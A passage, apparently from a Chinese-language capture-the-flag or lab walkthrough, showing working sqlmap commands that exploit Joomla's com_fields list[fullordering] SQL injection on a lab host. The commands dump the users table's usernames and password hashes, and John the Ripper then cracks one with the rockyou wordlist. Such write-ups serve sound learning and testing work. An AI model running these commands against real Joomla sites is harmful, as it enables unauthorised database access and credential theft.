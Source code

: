 再次针对表爆出元组

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns 
```

![](./pic-3/12.jpg)

爆出数据

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```

![](./pic-3/13.jpg)

把密码复制到一个文件`hash`中，然后使用`john`进行爆破，解出密码为 `snoopy`

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```
